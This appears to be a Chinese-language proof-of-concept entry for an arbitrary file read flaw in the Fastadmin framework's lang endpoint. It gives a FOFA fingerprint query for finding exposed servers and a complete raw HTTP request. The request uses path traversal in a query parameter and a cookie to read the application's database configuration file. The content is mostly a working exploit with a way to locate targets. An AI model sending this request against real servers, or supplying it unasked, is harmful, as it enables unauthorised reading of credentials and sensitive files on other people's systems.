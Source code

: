 ## Fastadmin框架存在任意文件读取漏洞

Fastadmin框架 lang接口处存在任意文件读取漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件，例如客户记录、财务数据或源代码，导致数据泄露。

## fofa

```
icon_hash="-1036943727"
```

## poc

```
GET /index/ajax/lang?lang=..//..//application/database HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: think_var=..%2F%2F..%2F%2Fapplication%2Fdatabase
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
```

![image-20240616143331144](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161433252.png)